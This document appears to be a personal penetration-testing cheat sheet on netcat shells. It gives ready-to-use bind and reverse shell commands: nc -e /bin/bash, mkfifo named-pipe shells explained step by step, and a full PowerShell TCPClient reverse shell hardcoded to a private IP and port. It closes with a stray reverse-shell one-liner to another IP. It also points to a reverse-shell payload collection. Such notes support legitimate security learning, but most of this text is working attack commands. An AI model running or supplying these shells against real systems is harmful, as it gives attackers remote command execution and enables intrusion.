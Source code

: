 ## netcat connection
##### 1. Executing a process on action using netcat listener. 
**Example** - 
```python
nc -lvnp <PORT> -e /bin/bash
```
Connecting to the above listener with netcat would result in a **bind shell** on the target.

##### 2. Equally, for a reverse shell, connecting back would result in a **reverse shell** on the target with the below command:
```python
nc <LOCAL-IP> <PORT> -e /bin/bash
```

##### 3. On **Linux**, however, we would instead use this code to create a listener for a **bind shell**:
```python
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc -lvnp <PORT> < /tmp/f`: This sets up a netcat (nc) listener on a specified port (PORT) and redirects the input to come from the named pipe "/tmp/f". Netcat is a utility used for network communication.
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.
![[shells9.png]]

##### 4. A very similar command can be used to send a netcat reverse shell:
```python
mkfifo /tmp/f; nc <attacker-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
1. `mkfifo /tmp/f`: This creates a named pipe (FIFO) called "f" in the "/tmp" directory. A named pipe is a special file that allows two processes to communicate with each other.
    
2. `nc <LOCAL-IP> <PORT> < /tmp/f`: This uses netcat (nc) to connect to a specified IP address (LOCAL-IP) and port number (PORT). It redirects the input to come from the named pipe "/tmp/f".
    
3. `|`: This symbol is a pipe, connecting the output of the previous command to the input of the next command.
    
4. `/bin/sh`: This starts a shell (command-line interpreter) on the remote system. In this case, it is "/bin/sh", which is typically a symbolic link to the default system shell (like Bash).
    
5. `>/tmp/f`: This redirects the standard output of the shell to the named pipe "/tmp/f", which means any output from the shell will be sent back through the pipe.
    
6. `2>&1`: This redirects the standard error (file descriptor 2) to the same location as the standard output (file descriptor 1). In this case, it's the named pipe "/tmp/f".
    
7. `rm /tmp/f`: This removes the named pipe "/tmp/f" after the command has finished executing.

![[shells10.png]]

##### 5. Powershell reverse shell to exploit a modern Windows Server
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.45.240',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- In order to use this, we need to replace "IP" and "port" with an appropriate IP and choice of port.
- The above powershell script will work but you need to url encod it first.
- It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:
![[shells11.png]]

**For other common reverse shell payloads visit this repo** --> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

mkfifo /tmp/f; nc 10.17.47.177 4444 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f